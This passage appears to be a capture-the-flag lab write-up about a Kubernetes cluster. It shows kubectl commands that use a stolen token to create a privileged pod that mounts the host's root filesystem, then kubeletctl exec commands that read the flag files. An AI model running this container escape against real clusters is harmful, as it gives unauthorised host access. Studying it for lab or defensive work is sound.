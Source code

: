 Authenticated to the server, discovering that we have privileges to create a new pod.

```bash
export token=`cat dusk.token`
kubectl --token=$token --certificate-authority=dusk.crt --server=https://10.129.96.167:8443 auth can-i --list
Resources                                       Non-Resource URLs   Resource Names   Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                  []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                  []               [create]
pods                                            []                  []               [get create list]
...
```

The following YAML file will mount the root system on the target host.

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: privesc
  namespace: default
spec:
  containers:
  - name: privesc
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

Built a new pod with the previous configuration.

```bash
kubectl --token=$token --certificate-authority=dusk.crt --server=https://10.129.96.167:8443 apply -f privesc.yaml
pod/privesc created
```

Confirmed that the pod exists.

```bash
kubectl --token=$token --certificate-authority=dusk.crt --server=https://10.129.96.167:8443 get pods              
NAME      READY   STATUS    RESTARTS   AGE
nginx     1/1     Running   0          49m
privesc   1/1     Running   0          12s
```

Read both flags to pwn the box. GGs!

```bash
~/Desktop/tools/kubeletctl -i --server 10.129.96.167 exec "cat /root/root/root.txt" -p privesc -c privesc
cd3c35bc63db2483****************

~/Desktop/tools/kubeletctl -i --server 10.129.96.167 exec "cat /root/home/user/user.txt" -p privesc -c privesc
1c5b94c42fd71c69****************
```
